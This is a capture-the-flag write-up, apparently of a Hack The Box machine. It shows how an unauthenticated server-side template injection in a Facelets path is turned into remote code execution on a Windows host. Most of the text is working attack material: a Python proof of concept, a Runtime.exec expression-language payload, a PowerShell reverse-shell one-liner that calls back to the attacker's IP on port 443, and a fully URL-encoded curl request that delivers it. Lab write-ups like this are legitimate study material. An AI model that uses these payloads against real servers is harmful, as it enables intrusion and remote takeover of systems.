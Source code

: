 The vulnerability is an unauthenticated server-side template injection (SSTI) in the path of a nonexistent file. The following proof of concept attempts to retrieve `/login.jsp/pwn${-7+7}.xhtml`, which doesn't exist. The error message states that the file `/login.jsp/pwn0.xhtml` doesn't exist, indicating the `${-7+7}` template expression is being executed by the server.

```python
>>> import requests
>>> response = requests.get("http://hancliffe.htb/maintenance/..;/login.jsp/pwn${-7+7}.xhtml")
>>> response.text
'<span><span style="color:red;font-weight:bold;">ERROR: facelet not found at \'/login.jsp/pwn0.xhtml\'</span><br /></span>'
```

The SSTI vulnerability can be exploited for limited, blind command execution.

```txt
/maintenance/..;/login.jsp/pwn${\"\".getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"$COMMAND\",null).waitFor()}.xhtml
```

The context makes it seem impossible to stage a payload via HTTP or SMB. It also seems to error out if given any kind of string literal in the command, no matter the encoding. It is also really important to URL-encode the *entire* command.

To get around these restrictions, tweak the [Nishang reverse shell TCP one-liner](https://github.com/samratashok/nishang/edit/master/Shells/Invoke-PowerShellTcpOneLine.ps1) to take the attacking machine's IP address as a decimal number instead of a string literal.

```powershell
PS C:\Users\tgihf> ([System.Net.IpAddress]"10.10.14.97").Address
1628310026
PS C:\Users\tgihf> (New-Object System.Net.IpAddress(1628310026)).IPAddressToString
10.10.14.97
```

The payload:

```powershell
$ip=(New-Object Net.IPAddress(1628310026));$sm=(New-Object Net.Sockets.TCPClient($ip,443)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

After URL-encoding the payload:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: hancliffe.htb' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' \
    $'http://hancliffe.htb/maintenance/..;/login.jsp/pwn$%7B%22%22.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22powershell.exe%20-c%20%24%69%70%3d%28%4e%65%77%2d%4f%62%6a%65%63%74%20%4e%65%74%2e%49%50%41%64%64%72%65%73%73%28%31%36%32%38%33%31%30%30%32%36%29%29%3b%24%73%6d%3d%28%4e%65%77%2d%4f%62%6a%65%63%74%20%4e%65%74%2e%53%6f%63%6b%65%74%73%2e%54%43%50%43%6c%69%65%6e%74%28%24%69%70%2c%34%34%33%29%29%2e%47%65%74%53%74%72%65%61%6d%28%29%3b%5b%62%79%74%65%5b%5d%5d%24%62%74%3d%30%2e%2e%36%35%35%33%35%7c%25%7b%30%7d%3b%77%68%69%6c%65%28%28%24%69%3d%24%73%6d%2e%52%65%61%64%28%24%62%74%2c%30%2c%24%62%74%2e%4c%65%6e%67%74%68%29%29%20%2d%6e%65%20%30%29%7b%3b%24%64%3d%28%4e%65%77%2d%4f%62%6a%65%63%74%20%54%65%78%74%2e%41%53%43%49%49%45%6e%63%6f%64%69%6e%67%29%2e%47%65%74%53%74%72%69%6e%67%28%24%62%74%2c%30%2c%24%69%29%3b%24%73%74%3d%28%5b%74%65%78%74%2e%65%6e%63%6f%64%69%6e%67%5d%3a%3a%41%53%43%49%49%29%2e%47%65%74%42%79%74%65%73%28%28%69%65%78%20%24%64%20%32%3e%26%31%29%29%3b%24%73%6d%2e%57%72%69%74%65%28%24%73%74%2c%30%2c%24%73%74%2e%4c%65%6e%67%74%68%29%7d%22,null).waitFor()%7D.xhtml'
```
